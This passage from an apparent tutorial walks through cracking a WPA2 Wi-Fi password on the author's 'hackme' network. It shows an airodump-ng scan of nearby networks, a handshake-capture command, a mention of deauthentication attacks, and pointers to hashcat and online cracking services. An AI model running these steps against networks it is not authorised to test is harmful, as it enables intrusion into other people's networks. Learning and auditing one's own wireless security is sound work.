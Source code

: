  BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  OPN              belkin.2e8.guests                                                   
 14:91:82:F7:52:E8  -64      212       56    0   1  54e  WPA2 CCMP   PSK  belkin.2e8                                                          
 14:22:DB:1A:DB:64  -81       44        7    0   1  54   WPA2 CCMP        <length:  0>                                                        
 14:22:DB:1A:DB:66  -83       48        0    0   1  54e. WPA2 CCMP   PSK  steveserro                                                          
 9C:5C:8E:C9:AB:C0  -81       19        0    0   3  54e  WPA2 CCMP   PSK  hackme                                                                 
 00:23:69:AD:AF:94  -82      350        4    0   1  54e  WPA2 CCMP   PSK  Kaitlin's Awesome                                                   
 06:26:BB:75:ED:69  -84      232        0    0   1  54e. WPA2 CCMP   PSK  HH2                                                                 
 78:71:9C:99:67:D0  -82      339        0    0   1  54e. WPA2 CCMP   PSK  ARRIS-67D2                                                          
 9C:34:26:9F:2E:E8  -85       40        0    0   1  54e. WPA2 CCMP   PSK  Comcast_2EEA-EXT                                                    
 BC:EE:7B:8F:48:28  -85      119       10    0   1  54e  WPA2 CCMP   PSK  root                                                                
 EC:1A:59:36:AD:CA  -86      210       28    0   1  54e  WPA2 CCMP   PSK  belkin.dca
For the purposes of this demo, we will choose to crack the password of my network, "hackme". Remember the BSSID MAC address and channel (CH) number as displayed by airodump-ng, as we will need them both for the next step.

## Capture a 4-way Handshake
WPA/WPA2 uses a 4-way handshake to authenticate devices to the network. You don't have to know anything about what that means, but you do have to capture one of these handshakes in order to crack the network password. These handshakes occur whenever a device connects to the network, for instance, when your neighbor returns home from work. We capture this handshake by directing airmon-ng to monitor traffic on the target network using the channel and bssid values discovered from the previous command.

# replace -c and --bssid values with the values of your target network
# -w specifies the directory where we will save the packet capture
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS  
Now we wait... Once you've captured a handshake, you should see something like [ WPA handshake: bc:d3:c9:ef:d2:67 at the top right of the screen, just right of the current time.

If you are feeling impatient, and are comfortable using an active attack, you can force devices connected to the target network to reconnect, be sending malicious deauthentication packets at them. This often results in the capture of a 4-way handshake. See the deauth attack section below for info on this.

Once you've captured a handshake, press ctrl-c to quit airodump-ng. You should see a .cap file wherever you told airodump-ng to save the capture (likely called -01.cap). We will use this capture file to crack the network password. I like to rename this file to reflect the network name we are trying to crack:

mv ./-01.cap hackme.cap
## Crack the Network Password
The final step is to crack the password using the captured handshake. If you have access to a GPU, I highly recommend using hashcat for password cracking. I've created a simple tool that makes hashcat super easy to use called naive-hashcat. If you don't have access to a GPU, there are various online GPU cracking services that you can use, like GPUHASH.me or OnlineHashCrack. You can also try your hand at CPU cracking with Aircrack-ng.
